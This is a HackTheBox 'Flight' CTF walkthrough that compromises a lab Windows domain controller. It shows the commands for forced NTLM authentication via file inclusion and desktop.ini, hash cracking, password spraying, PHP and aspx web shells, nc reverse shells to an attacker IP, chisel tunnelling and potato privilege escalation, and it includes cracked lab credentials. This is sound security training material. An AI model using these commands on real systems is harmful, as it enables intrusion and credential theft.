# HackTheBox - Flight

## NMAP


```bash
Nmap scan report for 10.10.11.187    
Host is up (0.28s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods:                                                                                                 
|   Supported Methods: POST OPTIONS HEAD GET TRACE                                                              
|_  Potentially risky methods: TRACE                                                                            
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: g0 Aviation         
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-17 00:13:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## PORT 139/445 (SMB)

Checking null authentication on SMB shows that we can't access any share through anonmyously

<img src="https://i.imgur.com/vtOncKe.png"/>

## PORT 80 (HTTP)

<img src="https://i.imgur.com/8ccuI6h.png"/>

The site didn't had anything there as it was just a page with no links also `gobuster` didn't showed anything interesting to as well

<img src="https://i.imgur.com/va9V6Uh.png"/>

So adding `flight.htb` in `/etc/hosts` file as we can see the domain name at the bottom of the page

<img src="https://i.imgur.com/LJ2UM2Z.png"/>

<img src="https://i.imgur.com/tUiLVcp.png"/>

Fuzzing for subdomains using `wfuzz`

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://flight.htb' -H "Host: FUZZ.flight.htb"  --hh 7069
```

<img src="https://i.imgur.com/p6r2VtD.png"/>

Adding this subdomain in hosts file and accessing the site

<img src="https://i.imgur.com/MkiUFyW.png"/>

<img src="https://i.imgur.com/QUJXoxu.png"/>

Checking for Local File Inclusion it filters `..` if it's in the url but allows `/`

<img src="https://i.imgur.com/sxhcQ1Y.png"/>

<img src="https://i.imgur.com/Mfn8VrC.png"/>

## Svc_apache

Running `wfuzz` again to fuzz for LFI payloads we find that we can just specify a file name without using `..`

<img src="https://i.imgur.com/QpRyOlh.png"/>

<img src="https://i.imgur.com/r3e6K8Z.png"/>

Let's verify if we have remote file inclusion if we do we can just try accessing a fake share on our machine and use `responder` to capture NTLMv2 hash

<img src="https://i.imgur.com/Efv3OXq.png"/>

<img src="https://i.imgur.com/QNZfpDs.png"/>

We have a hit so now running responder and accessing a fake share with `//IP/share`

```bash
responder -I tun0
```

<img src="https://i.imgur.com/w2otusT.png"/>

```bash
http://school.flight.htb/index.php?view=//10.10.14.28/uwu
```

<img src="https://i.imgur.com/DFrZUfL.png"/>

Saving this hash in a file cracking it with `john`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<img src="https://i.imgur.com/3xxMhYJ.png"/>

With the valid credentials we can start enumerating the shares and usernames through `crackmapexec`

<img src="https://i.imgur.com/MlDZ7Ix.png"/>
Using `enum4linux` to query usernames and filtering usernames so that we can password spray on them

```bash
enum4linux-ng -A flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13' | grep username | awk -F : {'print $2'} > users.txt
```

<img src="https://i.imgur.com/45qCJWe.png"/>

## S.moon

Using either cme or kerbrute to perform password spary we'll get `S.Moon` having the same password

```bash
kerbrute passwordspray -d flight.htb --dc 10.10.11.187 ./users.txt 'S@Ss!K@*t13'
```

<img src="https://i.imgur.com/gaotp0Q.png"/>

```bash
cme smb flight.htb -u users.txt -p 'S@Ss!K@*t13' --continue-on-success
```

<img src="https://i.imgur.com/svRtQ3C.png"/>
Checking shares with s.moon, we see that we have write access on `shared`

<img src="https://i.imgur.com/ZMVtFmX.png"/>

## C.bum

On uploading `.scf ` file extension to perform forced authentication it didn't allowed us to upload that extension, not sure why

<img src="https://i.imgur.com/kvgRGyn.png"/>

But on uploading `desktop.ini` file it worked

```bash
[.ShellClassInfo]
IconResource=\\10.10.14.28\aa 
```

<img src="https://i.imgur.com/7z2Bj1F.png"/>

Cracking this hash again with john

<img src="https://i.imgur.com/BtLOQUG.png"/>

## Foothold

This user has write access on `web` share which means that we can upload php file which will be reflected on schooled.flight.htb

<img src="https://i.imgur.com/B854BMb.png"/>

Uploading a php file calling `phpinfo()`

```php
<?php phpinfo(); ?>
```

<img src="https://i.imgur.com/lSxOpDk.png"/>

<img src="https://i.imgur.com/tN4sfft.png"/>

<img src="https://i.imgur.com/fqblot6.png"/>

Having the ability to execute commands on the system we can try getting a reverse shell by uploading nc.exe and executing it 

```bash
http://school.flight.htb/uwu.php?cmd=curl+10.10.14.28:2222/nc64.exe -o C:\Windows\Temp\nc64.exe

http://school.flight.htb/uwu.php?cmd=C:\Windows\Temp\nc64.exe 10.10.14.28 3333 -e powershell.exe
```

<img src="https://i.imgur.com/kvWwE3b.png"/>

Since we already have credentials of `c.bum` we can execute commands through that user using `RunasC.exe`

<img src="https://i.imgur.com/mevnft1.png"/>

```powershell
.\RunasCs.exe c.bum Tikkycoll_431012284 whoami
```

<img src="https://i.imgur.com/kOnEou7.png"/>

This user has full access on `C:\inetpub\Development`

<img src="https://i.imgur.com/H0s2gRQ.png"/>

These files are being hosted on port 8000, to access these files we need to port forward port 8000 using `chisel`

Runnnig the server on our machine

```bash
chisel server --reverse -p 8001
```

And running the client on the target machine

```powershell
.\chisel.exe client 10.10.14.28:8001 R:8000:127.0.0.1:8000
```

<img src="https://i.imgur.com/IGEHaoC.png"/>

Now transferring the aspx web shell in the development directory

```
.\RunasCs.exe c.bum Tikkycoll_431012284 'curl 10.10.14.28:2222/aspx_shell.aspx -o C:\inetpub\Development\shell.aspx'
```

Accessing the file through the browser

<img src="https://i.imgur.com/pPW6xXv.png"/>

I tried executing nc.exe to get a reverse shell but it wasn't for some reason so instead I generated a msfvenom payload 

<img src="https://i.imgur.com/o9UGgzz.png"/>

Transfer it and execute it 

<img src="https://i.imgur.com/5ipfRDG.png"/>

<img src="https://i.imgur.com/XSciDMW.png"/>

Checking privileges of `IIS appool`, it as `SeImpersonate` privilege enabled

<img src="https://i.imgur.com/K8jYNpK.png"/>

To abuse this, we can use `JuicyPotato-ng` to get a system shell

```
.\potatoe.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Windows\Temp\nc.exe 10.10.14.28 6666 -e cmd.exe"
```

<img src="https://i.imgur.com/v1l8N7U.png"/>

<img src="https://i.imgur.com/TjBCxv6.png"/>


## References

- https://book.hacktricks.xyz/pentesting-web/file-inclusion
- https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds
- https://github.com/Greenwolf/ntlm_theft
- https://github.com/antonioCoco/RunasCs
